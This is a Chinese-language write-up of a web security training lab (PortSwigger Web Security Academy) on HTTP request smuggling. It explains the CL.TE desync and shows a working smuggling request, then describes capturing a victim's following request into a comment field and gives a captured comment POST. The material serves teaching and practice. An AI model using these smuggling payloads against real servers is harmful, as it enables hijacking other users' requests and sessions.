 执行后可以打开一个显示成绩的页面。其实只要用request把成绩拉到手，剩下的想怎么处理就怎么处理了。

## Task3

关于HTTP请求走私漏洞：这个漏洞利用前后端服务器解析HTTP请求时用的头不一致，构建一个差异请求包，从而使后端服务器错将一个包解析为多个包，造成一个“边界错位”，在此错位内注入走私请求，即可达到攻击效果。

实现Lab。原Lab中希望实现的是提交一个GPOST请求。根据之前的边界错位原理，如果把Content-Length设置成区块截止（0）的位置，再把Transfer-Encoding设置成chunked：

```http

POST / HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Connection: keep-alive
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

<br>
（注意Length后默认填0，6是由Burp自动生成的）  
这样在发送之后，G就会被后端认为是下一个包的内容，等待继续输入，这个时候如果再有其他用户（受害者）发送一个POST请求，G就会出现在这个POST请求的最前面，于是就会出现GPOST方法包了。

那么根据这个原理，只需要先发送一个包，然后把G修改成全POST请求，在末尾添加一个类似Content: 的内容，接下来发送的包就会被认为是Content内容，也就是评论区的内容，这样受害者再发送包时服务器就会把包的全部内容当作Content传入评论区。主动抓取评论功能的POST包，可以得到如下内容：
<br>

```http
POST /post/comment HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Cookie: session=khggnJVkypsHtqXcNtK5VkZS2WDKiHsp
Content-Length: 125
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: https://0a6800a403f1413383246ed900270005.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6800a403f1413383246ed900270005.web-security-academy.net/post?postId=8
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=8hUFUgINQOBiAL481JoFghTWLBkbPx7O&postId=8&comment=Web+yidaotiyebuhuizuo&name=AlabTNT&email=alabtnt%40zju.edu.cn&website=
```
